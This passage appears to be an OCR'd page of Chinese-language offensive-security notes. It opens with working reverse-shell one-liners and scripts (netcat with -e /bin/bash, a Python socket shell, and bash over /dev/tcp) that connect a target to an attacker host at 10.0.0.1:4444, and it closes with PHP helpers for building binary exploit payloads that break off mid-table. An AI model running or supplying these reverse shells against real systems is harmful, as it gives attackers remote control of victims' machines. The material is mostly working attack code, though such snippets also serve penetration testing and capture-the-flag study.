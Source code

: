 ```php
nc 10.0.0.1 4444 -e /bin/bash
```

这会连接到攻击者机器并执行bash shell。

2. 使用 Python 的例子：

攻击者机器（IP: 10.0.0.1）：

```php
nc -lvp 4444
```

目标机器：

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

3. 使用 Bash 的例子：

攻击者机器（IP: 10.0.0.1）：

```php
nc -lvp 4444
```

目标机器：

```bash
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```

这些例子都会在目标机器上创建一个shell，并将其输入/输出重定向到攻击者机器。

常用php
=====

```php
//零字节
"\x00"
//等价于p64
pack('Q', $p_rdi_r)
//等价于'a'*0x80
str_repeat('a', 0x80);
//等价于command.ljust(0x60,"\x00")
str_pad($command, 0x60, "\x00")
//等价于p64
function p64(string $value):string{
    static $p64_table=[
        0=>"\x00",1=>"\x01",2=>"\x02",3=>"\x03",4=>"\x04",5=>"\x05",6=>"\x06",7=>"\x07",8=>"\x08",9=>"\x09",10=>"\x0a",
        11=>"\x0b",12=>"\x0c",13=>"\x0d",14=>"\x0e",15=>"\x0f",16=>"\x10",17=>"\x11",18=>"\x12",19=>"\x13",20=>"\x14",
        21=>"\x15",22=>"\x16",23=>"\x17",24=>"\x18",25=>"\x19",26=>"\x1a",27=>"\x1b",28=>"\x1c",29=>"\x1d",30=>"\x1e",
        31=>"\x1f",32=>"\x20",33=>"\x21",34=>"\x22",35=>"\x23",36=>"\x24",37=>"\x25",38=>"\x26",39=>"\x27",40=>"\x28",
        41=>"\x29",42=>"\x2a",43=>"\x2b",44=>"\x2c",45=>"\x2d",46=>"\x2e",47=>"\x2f",48=>"\x30",49=>"\x31",50=>"\x32",
        51=>"\x33",52=>"\x34",53=>"\x35",54=>"\x36",55=>"\x37",56=>"\x38",57=>"\x39",58=>"\x3a",59=>"\x3b",60=>"\x3c",
        61=>"\x3d",62=>"\x3e",63=>"\x3f",64=>"\x40",65=>"\x41",66=>"\x42",67=>"\x43",68=>"\x44",69=>"\x45",70=>"\x46",
```